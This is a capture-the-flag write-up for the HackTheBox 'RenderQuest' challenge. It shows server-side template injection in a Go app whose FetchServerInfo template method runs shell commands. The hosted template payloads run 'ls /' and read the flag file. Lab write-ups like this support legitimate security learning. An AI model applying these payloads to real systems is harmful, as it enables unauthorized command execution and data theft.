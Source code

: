 # HackTheBox Write-Up: RenderQuest \[EASY]
## Description
You've found a website that lets you input remote templates for rendering. Your task is to exploit this system's vulnerabilities to access and retrieve a hidden flag. Good luck!
# My approach
## First thing I did is open the challenge
![Alt Text](img/image-1.png)
It looks like I can send a link for my sample template and I can use some available data.
## Check source code and try our own template using available template data
![Alt Text](img/image-2.png)

Look like this is ran using golang, after searching for golang templates, its time to test if it works
here I displayed the server information. You can use Github Pages to host your template, for more info visit this page. [Github Pages](https://pages.github.com/)
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>RenderQuest Exploit</title>
</head>
<body>
    <h1>Server Info:</h1>
    <ul>
        <li>Hostname: {{.ServerInfo.Hostname}}</li>
        <li>OS: {{.ServerInfo.OS}}</li>
        <li>Kernel Version: {{.ServerInfo.KernelVersion}}</li>
        <li>Kernel Version: {{.ServerInfo.Memory}}</li>
    </ul>
</body>
</html>
```
![Alt Text](img/image-3.png)

Looks like its working, let's take a deeper dive in the main.go
## After checking the source code, we found a suspicious function
![Alt Text](img/image-4.png)

It receives a string command, run it in a shell, and return the output as a string.
Let's test some sample commands
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>RenderQuest Exploit</title>
</head>
<body>
    <h1>Server Info:</h1>
    <ul>
        <li>Hostname: {{.ServerInfo.Hostname}}</li>
        <li>OS: {{.ServerInfo.OS}}</li>
        <li>Kernel Version: {{.ServerInfo.KernelVersion}}</li>
        <li>Kernel Version: {{.ServerInfo.Memory}}</li>
    </ul>
    <p>Test command: {{.FetchServerInfo "ls /"}}</p>
</body>
</html>
```
![Alt Text](img/image-5.png)

Looks like we found the flag

## Lets change ls / to cat /flag869fdef84e.txt to view the flag
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>RenderQuest Exploit</title>
</head>
<body>
    <h1>Server Info:</h1>
    <ul>
        <li>Hostname: {{.ServerInfo.Hostname}}</li>
        <li>OS: {{.ServerInfo.OS}}</li>
        <li>Kernel Version: {{.ServerInfo.KernelVersion}}</li>
        <li>Kernel Version: {{.ServerInfo.Memory}}</li>
    </ul>
    <p>Final exploit: {{.FetchServerInfo "cat /flag869fdef84e.txt"}}</p>
</body>
</html>
```
![Alt Text](img/image-6.png)

# Reference
- https://www.digitalocean.com/community/tutorials/how-to-use-templates-in-go
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection